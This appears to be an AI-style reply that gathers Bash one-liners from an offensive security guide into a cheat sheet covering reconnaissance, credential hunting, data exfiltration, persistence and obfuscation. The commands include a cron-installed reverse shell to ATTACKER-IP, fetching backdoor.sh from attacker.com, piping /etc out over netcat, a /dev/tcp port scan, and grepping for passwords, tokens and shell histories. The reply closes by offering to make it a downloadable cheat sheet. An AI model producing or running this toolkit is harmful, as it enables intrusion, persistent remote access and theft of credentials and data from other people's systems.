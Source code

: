 Here's a clean summary of all the Bash one-liners from the guide, grouped by category for quick reference:

---

## 🧾 Summary of Bash One-Liners

### 🔥 Core Info Gathering & Recon
```bash
python3 -m http.server 8080
find / -perm -4000 -type f 2>/dev/null
for user in $(cut -d: -f1 /etc/passwd); do crontab -u $user -l 2>/dev/null; done
for port in {20..1024}; do (echo >/dev/tcp/10.10.10.5/$port) && echo "Port $port open"; done 2>/dev/null
ip a | grep inet
```

### 🕵️‍♂️ Enumeration & Post-Exploitation
```bash
cut -d: -f1 /etc/passwd
find / -type f -perm -o+w 2>/dev/null
grep -iR 'password\|secret\|key\|token' /etc 2>/dev/null
watch -n 1 ss -tuna
find /home /root -name ".*history" -exec cat {} \; 2>/dev/null
```

### 🧠 Data Extraction & Movement
```bash
scp payload.sh user@192.168.1.5:/tmp
tar czf - /loot | ssh user@remote "tar xzf - -C /tmp"
grep -oE "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-z]{2,6}" * 2>/dev/null | sort -u
grep -oE '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b' /var/log/* 2>/dev/null | sort -u
curl -sO http://attacker.com/backdoor.sh
```

### 💣 Persistence, Priv-Esc & Lateral Movement
```bash
echo "* * * * * bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1" | crontab -
find / -type d -writable 2>/dev/null
tar czf - /etc | nc ATTACKER-IP 1234
nc -lvp 1234 > data.tar.gz
docker ps -a 2>/dev/null
cat /var/mail/root 2>/dev/null
```

### 🎭 Obfuscation, Encoding, Decryption
```bash
echo 'U29ja3M=' | base64 -d
echo 4861636b | xxd -r -p
tr -dc A-Za-z0-9 </dev/urandom | head -c 16; echo
whoami && uname -a && id && uptime
```

---

Let me know if you'd like this turned into a downloadable cheat sheet or formatted for a terminal-friendly reference!
